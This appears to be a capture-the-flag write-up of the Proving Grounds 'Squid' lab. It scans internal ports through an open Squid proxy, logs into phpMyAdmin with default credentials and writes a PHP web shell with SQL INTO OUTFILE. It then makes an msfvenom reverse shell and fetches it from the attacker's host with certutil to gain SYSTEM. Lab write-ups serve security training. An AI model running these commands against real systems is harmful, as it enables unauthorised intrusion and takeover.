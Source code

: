 ```yaml
---
layout: post
title: Proving Grounds Practice Squid  
subtitle: Easy
thumbnail-img: /assets/img/squid/squid.png
tags: [PG]
---
```


![squid](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/squid/squid.png)

| Name | Sorcerer |
| :------ |:--- |
| OS | Windows |
| DIFFICULTY | Easy  |

# Port Scan
Like every machine, I started with a `nmap` script to identify open ports. The first clip below highlights the `--min-rate 1000` which will perform a very rapid scan over all ports (specified by using `-p-`).
```
┌──(root㉿kali)-[~/provingGrounds/squid]
└─# nmap -p- -v --min-rate 1000 192.168.179.189 -oN nmap.scan -Pn
PORT     STATE SERVICE
3128/tcp open  squid-http
```

There was only one port open `3128`. `Nmap` thought that this was `squid-http`, but just to be sure I ran a script `-sC` and version `-sV` scan to double-check. 
```
┌──(root㉿kali)-[~/provingGrounds/squid]
└─# nmap -p 3128 192.168.179.189 -sV -sC -oN 3128.scan -Pn
PORT     STATE SERVICE    VERSION
3128/tcp open  http-proxy Squid http proxy 4.14
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.14
```

# Squid-Http
The home page of this site gives an error saying that the URL is bad. I do not know much about `Squid Proxy` specifically but usually a proxy is a gateway between a user and a server. At the bottom of this page, there is a version disclosure of `SQUID (squid4.14)`. Whenever I come across a version I like to look around the internet for a potential exploit, this version however did not have one. 
![squid](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/squid/1.png)

The next thing I did was take a look at [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid) to see if they had any advice on testing a Squid Proxy Server. The site references a tool called `spose.py` https://github.com/aancw/spose that will abuse the proxy to scan for internal open ports.

```
┌──(root㉿kali)-[~/provingGrounds/squid/spose]
└─# python spose.py --proxy http://192.168.179.189:3128 --target 192.168.179.189 
Using proxy address http://192.168.179.189:3128
192.168.179.189 3306 seems OPEN 
192.168.179.189 8080 seems OPEN 
```

I also found a `metasploit` module that does the same thing. https://www.rapid7.com/db/modules/auxiliary/scanner/http/squid_pivot_scanning/ The main difference between the two is the default scanned ports. `spose.py` has a wider range of ports. This tool could also be used to pivot to other machines, but since this is a CTF I just stuck to the host. 

```
msf6 auxiliary(scanner/http/squid_pivot_scanning) > options

Module options (auxiliary/scanner/http/squid_pivot_scanning):

   Name          Current Setting                                  Required  Description
   ----          ---------------                                  --------  -----------
   CANARY_IP     1.2.3.4                                          yes       The IP to check if the proxy always answers positively; the IP should not respond.
   MANUAL_CHECK  true                                             yes       Stop the scan if server seems to answer positively to every request
   PORTS         21,80,139,443,445,1433,1521,1723,3389,8080,9100  yes       Ports to scan; must be TCP
   Proxies                                                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RANGE         192.168.179.189                                  yes       IPs to scan through Squid proxy
   RHOSTS        192.168.179.189                                  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         3128                                             yes       The target port (TCP)
   SSL           false                                            no        Negotiate SSL/TLS for outgoing connections
   THREADS       1                                                yes       The number of concurrent threads (max one per host)
   VHOST                                                          no        HTTP server virtual host

msf6 auxiliary(scanner/http/squid_pivot_scanning) > run

[+] [192.168.179.189] 192.168.179.189 is alive.
[+] [192.168.179.189] 192.168.179.189:8080 seems open (HTTP 200, server header: 'Apache/2.4.46 (Win64) PHP/7.3.21').
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Based on the output above there appears to be a web server on port `8080`. To reach this site I'll configure my `foxyproxy` to use the `squid` server

![squid](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/squid/2.png)

Once enabled going to `http://192.168.179.189:8080/` gets me to the internal host's `wamp` site. `wamp` is a software stack for windows that includes a Apache web server, OpenSSL for SSL support, MySQL database ,and the PHP programming language.

![squid](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/squid/3.png)

`phpmyadmin` is a great way to get code execution so I tried that avenue first. http://192.168.179.189:8080/phpmyadmin/ brought me to a login page and the default credentials of `root` and no password got me in! It's common to have default credentials on an internal app.

![squid](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/squid/4.png)

I created a new database and inserted some malicious `sql` to drop a back door onto the system.

`SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:/wamp/www/backdoor.php"`

![squid](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/squid/5.png)

Now going to `http://192.168.179.189:8080/backdoor.php?cmd=dir` gives me code execution!

![squid](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/squid/6.png)

Next, I generated a reverse shell with `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f exe > shell.exe`, then hosted it with `python3 -m http.server 80`. I then used my code execution to download and run the reverse shell.

`certutil.exe -urlcache -f http://192.168.49.179/shell.exe shell.exe`
![squid](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/squid/7.png)

![squid](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/squid/8.png)


![squid](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/squid/9.png)

![squid](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/squid/10.png)

It appears that this service was running as system! This box is rooted. 
